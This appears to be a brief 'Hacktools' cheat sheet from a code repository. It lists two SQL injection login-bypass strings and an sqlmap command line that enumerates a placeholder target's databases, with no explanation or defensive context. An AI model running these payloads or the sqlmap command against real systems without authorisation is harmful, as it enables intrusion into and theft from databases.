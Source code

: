 # Hacktools

#SQLI
## Easy command
'OR 1=1--
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p <your-parament> --thread 10 --random-agent --batch --dbs
